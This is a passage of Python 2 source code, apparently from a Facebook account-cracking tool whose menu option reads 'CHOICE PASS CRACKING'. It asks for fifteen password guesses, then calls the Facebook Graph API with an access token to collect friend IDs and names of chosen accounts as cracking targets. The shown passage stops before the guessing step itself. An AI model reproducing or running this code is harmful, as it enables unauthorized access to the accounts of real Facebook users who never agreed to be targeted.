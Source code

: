  
    if rishu == '3':
        os.system('clear')
        print logo
        print '\t     CHOICE PASS CRACKING'
        print '\x1b[1;97m======================================================='
        ps = raw_input('[1] Digit : ')
        ps2 = raw_input('[2] Digit : ')
        ps3 = raw_input('[3] Digit : ')
        ps4 = raw_input('[4] Digit : ')
        ps5 = raw_input('[5] Digit : ')
        ps6 = raw_input('[6] Digit : ')
        ps7 = raw_input('[7] Digit : ')
        ps8 = raw_input('[8] Digit : ')
        ps9 = raw_input('[9] Digit : ')
        ps10 = raw_input('[10] Digit : ')
        ps11 = raw_input('[11] Digit : ')
        ps12 = raw_input('[12] Digit : ')
        ps13 = raw_input('[13] Digit : ')
        ps14 = raw_input('[14] Digit : ')
        ps15 = raw_input('[15] Digit : ')
        print '\x1b[1;97m======================================================='
        os.system('clear')
        print logo
        print '\t     CHOICE PASS CRACKING'
        print '\x1b[1;37m======================================================='
        idt = raw_input('[1] INPUT ID : ')
        
        try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
        except KeyError:
            print '\tInvalid link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            crack()
 
        r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        
        idt = raw_input('[2] INPUT ID : ')
        
        try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
        except KeyError:
            print '\tInvalid link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            crack()
 